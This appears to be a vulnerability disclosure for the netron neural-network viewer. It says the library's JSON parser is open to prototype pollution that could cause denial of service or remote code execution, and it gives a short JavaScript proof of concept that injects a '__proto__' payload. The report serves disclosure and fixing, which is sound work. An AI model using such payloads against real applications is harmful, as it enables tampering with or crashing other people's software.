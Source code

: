 # :bug: Description

The `netron` library is a `viewer` for neural networks and deep learning algorithms, which can be used by every platform.
One of the `js` file to parse the `JSON` provided as datasets is however vulnerable to a `prototype pollution` issue, which could lead to `DOS` or also `RCE` in special cases.

# :fire: PoC

1. Download the https://github.com/lutzroeder/netron repo
2. `cd <installation_dir>/source`
3. Create the POC file:

```js
// poc.js
var j_net = require('./json');
var res = new j_net.TextReader('{"__proto__":{"test":true}}').read();
console.log(res.__proto__.test); // true
```
